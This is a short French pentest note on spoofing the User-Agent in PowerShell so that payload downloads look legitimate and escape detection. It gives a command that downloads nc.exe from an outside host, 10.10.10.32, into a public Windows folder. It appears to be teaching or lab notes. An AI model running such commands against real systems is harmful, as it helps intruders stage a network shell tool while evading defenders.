 ```yaml
---
public: true # set to true to make the article publishable
---
```

Dans un environnement ayant mis en oeuvre des mesures de sécurité, l'utilisation des User-Agents par défaut pourrait être détecté assez facilement.

Lors du téléchargement ou de l'envoie de nos payloads, il peut être utile de modifier le User-Agent pour parraître légitime.

## Powershell

```powershell
# Liste de User Agents
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


# Modification du User Agent d'Invoke-WebRequest
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```
